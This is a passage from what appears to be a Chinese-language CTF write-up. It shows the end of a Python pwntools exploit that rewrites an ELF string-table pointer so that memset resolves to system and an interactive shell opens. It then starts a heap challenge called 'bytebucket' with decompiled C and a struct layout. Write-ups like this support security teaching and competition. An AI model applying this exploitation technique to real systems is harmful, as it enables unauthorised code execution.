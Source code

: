 ```python
STRTAB=0x0804AF58
memset_sym_stname=0x44
system_addr=0x804a00c
new_elf_string_table=system_addr-memset_sym_stname
change_bytes2 = struct.pack("<I",new_elf_string_table)
print(change_bytes2)

tict_change(init_addr,change_bytes1[0:1])
tict_change(STRTAB,change_bytes2[0:1])
tict_change(init_addr + 1,change_bytes1[1:2])
tict_change(STRTAB + 1,change_bytes2[1:2])
tict_change(init_addr+2,change_bytes1[2:3])
tict_change(STRTAB + 2,change_bytes2[2:3])
tict_change(STRTAB + 3,change_bytes2[3:4])

p.recv()
p.sendline(b"0")
p.recv()
p.sendline(b"ls")
p.interactive()
```

#### 80 Pwn    bytebucket

write up：

```c
bucket *__fastcall malloc_bucket(int size, __int64 name)
{
  bucket *result; // rax
  bucket *bucket_struct; // [rsp+18h] [rbp-8h]

  bucket_struct = (bucket *)malloc(8 * (size + 4LL));
  if ( (unsigned int)set_bucket_name(bucket_struct, (const char *)name) )
  {
    bucket_struct->next = 0LL;
    bucket_struct->size = size;
    result = bucket_struct;
  }
  else
  {
    free(bucket_struct);
    result = 0LL;
  }
  return result;
}
```

`bucket`结构：

```c
struct bucket{
    bucket* next;
    int64 size;
    char[16] name;
    char* slot0;
    char* slot1;
    ...
}
```

